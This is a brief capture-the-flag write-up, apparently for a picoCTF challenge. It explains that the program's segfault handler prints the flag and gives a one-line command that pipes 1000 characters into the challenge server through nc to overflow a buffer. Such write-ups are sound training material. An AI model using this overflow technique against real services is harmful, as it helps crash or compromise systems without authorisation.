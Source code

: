 
In the C source code, we can see segsev handler there, flushing the flag.

So what we only need to do is overflow the buffer, nothing fancy about take advantage of format string.

```bash
python -c "print('a' * 1000)" | nc mimas.picoctf.net 54430
```
